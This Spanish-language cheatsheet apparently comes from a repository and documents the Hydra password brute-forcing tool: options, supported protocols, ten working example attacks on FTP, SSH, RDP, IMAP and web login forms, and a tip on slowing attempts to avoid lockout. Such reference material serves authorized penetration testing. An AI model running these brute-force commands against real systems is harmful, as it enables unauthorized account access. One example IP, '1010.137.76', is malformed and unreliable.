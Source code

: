 # Hydra Cheatsheet Profesional

## Descripción

**Hydra** es una herramienta extremadamente rápida y flexible para realizar ataques de fuerza bruta a diversos servicios de red. Permite atacar una variedad de protocolos y servicios como FTP, SSH, HTTP, IMAP, entre otros, utilizando listas de usuarios y contraseñas.

## Uso Básico

La estructura básica de un comando de **Hydra** es:

```bash
hydra [opciones] [servicio]://[host]
```

- `-l [usuario]`: Define un solo nombre de usuario.
- `-L [lista de usuarios]`: Usa una lista de nombres de usuarios.
- `-p [contraseña]`: Define una sola contraseña.
- `-P [lista de contraseñas]`: Usa una lista de contraseñas.
- `-M [lista de hosts]`: Especifica una lista de múltiples objetivos.
- `-s [puerto]`: Especifica un puerto personalizado (opcional si no es el predeterminado del servicio).
- `-t [número de hilos]`: Define el número de hilos (máximo de conexiones paralelas).
- `-o [archivo.txt]`: Especifica el nombre del archivo donde se guardarán los resultados.

---

## Opciones Comunes

| Opción        | Descripción                                             |
|---------------|--------------------------------------------------------|
| `-l`          | Nombre de usuario único.                               |
| `-L`          | Lista de nombres de usuario.                           |
| `-p`          | Contraseña única.                                      |
| `-P`          | Lista de contraseñas.                                  |
| `-M`          | Lista de múltiples objetivos.                          |
| `-s`          | Puerto específico (si es distinto al predeterminado).  |
| `-t`          | Número de hilos (conexiones paralelas).                |
| `-v / -V / -d`| Verbosidad (-v: verboso, -V: muy verboso, -d: debug). |
| `-o`          | Guardar los resultados en un archivo.                  |
| `-f`          | Detenerse cuando se encuentre la primera contraseña válida. |
| `-6`          | Habilitar ataques sobre IPv6.                          |
| `-C`          | Especifica un archivo con combinaciones `usuario:contraseña`. |

---

## Protocolos Soportados

**Hydra** puede atacar una variedad de servicios como:

- `ftp`
- `ssh`
- `telnet`
- `smtp`
- `http-get` / `http-post`
- `imap`
- `pop3`
- `smb`
- `vnc`
- `ldap`
- `rdp`
- `mssql`
- `mysql`
- `postgres`
- `snmp`
- `redis`
- `sip`
- Y muchos más.

---

## Ejemplos Comunes

### 1. **Ataque FTP con un usuario y lista de contraseñas**

```bash
hydra -l user -P passlist.txt ftp://192.168.0.1 -o resultados_ftp.txt
```

- Ataca un servidor FTP en la IP `192.168.0.1` utilizando el usuario `user` y la lista de contraseñas `passlist.txt`, guardando los resultados en `resultados_ftp.txt`.

### 2. **Ataque IMAP con lista de usuarios y contraseña predeterminada**

```bash
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN -o resultados_imap.txt
```

- Usa una lista de usuarios (`userlist.txt`) con la contraseña `defaultpw` para un ataque IMAP a la IP `192.168.0.1`, guardando los resultados en `resultados_imap.txt`.

### 3. **Ataque POP3 seguro con archivo de combinaciones de usuario:contraseña y soporte IPv6**

```bash
hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5 -o resultados_pop3.txt
```

- Ataca un servidor POP3S en la dirección IPv6 `[2001:db8::1]`, puerto `143`, utilizando combinaciones de usuario y contraseña desde el archivo `defaults.txt`, guardando los resultados en `resultados_pop3.txt`.

### 4. **Escaneo de subred para FTP con un usuario y contraseña específicos**

```bash
hydra -l admin -p password ftp://[192.168.0.0/24]/ -o resultados_subred.txt
```

- Escanea todas las direcciones dentro del rango `192.168.0.0/24` (subred local) usando el usuario `admin` y la contraseña `password` para buscar servicios FTP, guardando los resultados en `resultados_subred.txt`.

### 5. **Ataque SSH contra múltiples objetivos con listas de usuarios y contraseñas**

```bash
hydra -L logins.txt -P pws.txt -M targets.txt ssh -o resultados_ssh.txt
```

- Utiliza `logins.txt` para usuarios, `pws.txt` para contraseñas, y `targets.txt` para especificar múltiples IPs o dominios a atacar a través de SSH, guardando los resultados en `resultados_ssh.txt`.

### 6. **Ataque HTTP POST con lista de usuarios y contraseñas**

```bash
hydra -L users.txt -P pass.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect" -t 64 -v -o resultados_http.txt
```

- Realiza un ataque de fuerza bruta a un formulario de login en un sitio web. Usa `users.txt` y `pass.txt` como listas de usuarios y contraseñas. Se busca el mensaje `incorrect` para determinar si el intento falló, guardando los resultados en `resultados_http.txt`.

### 7. **Ataque HTTP GET a una página protegida con autenticación básica**

```bash
hydra -L users.txt -P pass.txt http-get://example.com/protected -o resultados_http_get.txt
```

- Ataque de fuerza bruta sobre una página protegida con autenticación básica en `http-get` con listas de usuarios y contraseñas, guardando los resultados en `resultados_http_get.txt`.

### 8. **Fuerza bruta RDP (Escritorio Remoto)**

```bash
hydra -t 1 -V -f -L users.txt -P passlist.txt rdp://192.168.1.100 -o resultados_rdp.txt
```

- Ataca el servicio de Escritorio Remoto (RDP) en `192.168.1.100` utilizando listas de usuarios y contraseñas, con un solo hilo (`-t 1`) para evitar ser bloqueado rápidamente, guardando los resultados en `resultados_rdp.txt`.

### 9. **Atacando múltiples servicios a la vez**

```bash
hydra -L users.txt -P passlist.txt ftp://192.168.1.10 ssh://192.168.1.11 rdp://192.168.1.12 -o resultados_multi.txt
```

- Ataca múltiples servicios (FTP, SSH, RDP) en diferentes hosts con las mismas listas de usuarios y contraseñas, guardando los resultados en `resultados_multi.txt`.

### 10. **Ataque SSH con rockyou.txt**

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 1010.137.76 ssh -o resultados_rockyou.txt
```

- Utiliza una lista de usuarios (`users.txt`) y la famosa wordlist `rockyou.txt` para realizar un ataque de fuerza bruta SSH contra el host `1010.137.76`, guardando los resultados en `resultados_rockyou.txt`.

---

## Consejos Adicionales

- **Hilos y rendimiento:** Ajusta el número de hilos con `-t`. Un valor demasiado alto puede resultar en bloqueos o en la denegación del servicio en el servidor.
  
- **Detener en el primer éxito:** Usa `-f` para que Hydra se detenga después de encontrar una combinación válida de usuario y contraseña.

- **Guardar resultados:** Utiliza `-o resultado.txt` para guardar los resultados exitosos en un archivo de texto.

---

## Fuentes de Documentación

Para más información sobre opciones y ejemplos específicos, consulta la documentación oficial o utiliza el comando:

```bash
hydra -h
```
